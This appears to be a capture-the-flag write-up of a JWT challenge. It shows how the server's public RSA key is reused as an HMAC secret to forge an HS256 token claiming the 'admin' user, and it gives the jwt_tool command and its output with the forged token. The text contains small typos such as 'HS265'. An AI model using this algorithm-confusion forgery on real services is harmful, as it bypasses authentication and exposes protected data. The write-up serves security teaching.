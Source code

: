 You find an API with 3 endpoints:

    /key (accessible with GET)
    /auth (accessible with POST)
    /admin (accessible with POST)

There is sure to be important data in the admin section, access it!

The given public key:
```
-----BEGIN PUBLIC KEY-----
MIIBIjANBgkqhkiG9w0BAQEFAAOCAQ8AMIIBCgKCAQEAp/IZR0LGKHLQNDtUx7aq
egsv0o5d1WQGDZ3ORz+AjccPos4T/UhCkiwV1BEJnJ4wGWR0jfQ6e0iJ0oqsIJaG
J7xpWxi8fXd/SKPHXiggW7IBudCfr131NDHI71/kJM2u8pkcxre/ZqTWaIMbHGJO
QPO0zevmsK3xdnyA3pWa7LhiuMhJj1hUfESkhdbFeglYaZiilQU2eb8v1cpWzc34
SJLQuzvqAfiH49No+uK28GAz5vw3BT50jnmjzNEMsdomUFTHJtWizqIAe96KMlhg
trZCOH6WI4wj/H9dkAKWzwyE/MQMICz0aQrh05blGmzkgvC/klU02hDK59Mnxkdc
vwIDAQAB
-----END PUBLIC KEY-----
```
The given JWT

![alt text](image/image-5.png)

To solve the challenge, first get the base64-encoded of the public key to a `k` value of a new sysmetric key, change the `alg` to `HS265` and sign with the new key.

Or we could use `jwt_tool`
```
python3 jwt_tool.py <token> -S hs256 -k public.pem
```


```
(jwt_env) ┌─[nguyenlong05@sw1mj3llyf1sh] - [~/tempf/jwt_tool] - [Fri Jan 31, 15:47]
└─[$] <git:(master*)> python3 jwt_tool.py eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6ImFkbWluIn0.MIXorWvQ3hY92IT0R5SYpiN-bgpQtnA7lEkHbT_ggDA -S hs256 -k public.pem 

        \   \        \         \          \                    \ 
   \__   |   |  \     |\__    __| \__    __|                    |
         |   |   \    |      |          |       \         \     |
         |        \   |      |          |    __  \     __  \    |
  \      |      _     |      |          |   |     |   |     |   |
   |     |     / \    |      |          |   |     |   |     |   |
\        |    /   \   |      |          |\        |\        |   |
 \______/ \__/     \__|   \__|      \__| \______/  \______/ \__|
 Version 2.2.7                \______|             @ticarpi      

Original JWT: 

=====================
Decoded Token Values:
=====================

Token header values:
[+] alg = "HS256"
[+] typ = "JWT"

Token payload values:
[+] username = "admin"

----------------------
JWT common timestamps:
iat = IssuedAt
exp = Expires
nbf = NotBefore
----------------------

jwttool_be8b4a81c7d5622b5a861d774e6fac73 - Tampered token - HMAC Signing:
[+] eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6ImFkbWluIn0.YmpOl0OXbBTTdlrbhNB3XseJZCNYxszgOV_ngIU8wkc
```
![alt text](image/image-6.png)